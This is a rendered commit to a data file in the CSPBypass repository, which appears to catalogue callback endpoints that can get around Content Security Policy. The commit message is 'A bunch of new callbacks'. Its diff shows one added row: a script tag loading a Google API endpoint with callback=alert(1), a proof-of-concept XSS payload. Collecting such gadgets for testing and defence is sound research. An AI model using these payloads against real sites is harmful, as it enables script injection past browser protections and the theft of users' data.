

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv
A bunch of new callbacks :)

```diff
--- a/data.tsv
+++ b/data.tsv
+row 141: monitoring.clients6.google.com <script src="https://monitoring.clients6.google.com/v3/projects/gen-lang-client-1/groups?callback=alert(1)"></script>
```
Also changed, not shown: 23 added rows elsewhere in this file.
